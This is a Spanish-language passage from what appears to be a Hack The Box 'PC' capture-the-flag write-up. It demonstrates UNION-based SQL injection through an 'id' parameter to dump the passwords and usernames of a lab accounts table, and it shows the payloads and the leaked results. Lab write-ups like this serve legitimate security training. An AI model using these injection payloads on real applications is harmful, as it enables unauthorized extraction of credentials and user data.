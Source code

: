 Obtengo el identificador junto a un token

<img src="/writeups/assets/img/PC-htb/4.png" alt="">

El parámetro ```id``` es vulnerable a inyección SQL

```null
"id":"629 union SELECT GROUP_CONCAT(password) from accounts"
```

En la respuesta se puede ver la contraseña

```null
  "error": null,
  "responses": [
    {
      "message": {
        "message": "admin,HereIsYourPassWord1431,haris"
      },
      "isError": false
    }
  ],
```

Lo mismo para el usuario

```null
"id":"629 union SELECT GROUP_CONCAT(username) from accounts"
```

```null
  "error": null,
  "responses": [
    {
      "message": {
        "message": "admin,haris,hell,sau"
      },
      "isError": false
    }
  ],
```
